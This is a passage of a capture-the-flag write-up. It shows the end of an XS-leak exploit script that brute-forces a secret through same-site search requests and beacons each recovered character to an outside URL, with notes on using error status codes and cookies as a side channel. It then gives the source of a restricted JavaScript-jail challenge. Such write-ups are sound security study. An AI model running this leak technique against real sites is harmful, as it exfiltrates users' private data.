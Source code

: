 ``` html
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```

Here are a few details to note:

1. If the request is too large, the server will return an error(status 413 or 431 I think)
2. Because it is the same site, `<script>` will automatically carry a cookie when sending a request
3. You can use the onload/onerror event of script to detect whether the http status code is successful or not

## misc/CaaSio PSE

It's a jsjail with strong restrictions:

``` js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
```